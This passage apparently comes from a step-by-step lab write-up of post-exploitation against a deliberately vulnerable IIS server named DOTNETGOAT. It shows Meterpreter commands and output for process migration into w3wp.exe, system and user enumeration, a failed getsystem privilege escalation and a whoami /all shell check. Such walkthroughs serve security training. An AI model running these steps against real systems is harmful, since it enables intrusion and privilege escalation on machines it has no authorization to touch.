 `ps -S w3wp.exe`:
```
Filtering on 'w3wp.exe'

Process List
============

 PID   PPID  Name      Arch  Session  User                        Path
 ---   ----  ----      ----  -------  ----                        ----
 4664  2668  w3wp.exe  x64   0        IIS APPPOOL\DefaultAppPool  C:\Windows\System32\inetsrv\w3wp.exe
```

`migrate 4664`:
```
[*] Migrating from 4596 to 4664...
[*] Migration completed successfully. ←
```

**Step 11**.

`sysinfo`:
```
Computer        : DOTNETGOAT
OS              : Windows 2016+ (10.0 Build 17763). ←
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
```

`getuid`:
```
Server username: IIS APPPOOL\DefaultAppPool
```

`getsystem`:
```
[-] priv_elevate_getsystem: Operation failed: Access is denied. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
[-] Named Pipe Impersonation (RPCSS variant)
```

`sessions -i 1`, `shell`, `whoami /all`:
```
USER INFORMATION
----------------

User Name                  SID                                                          
========================== =============================================================
iis apppool\defaultapppool S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415


GROUP INFORMATION
-----------------
Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
```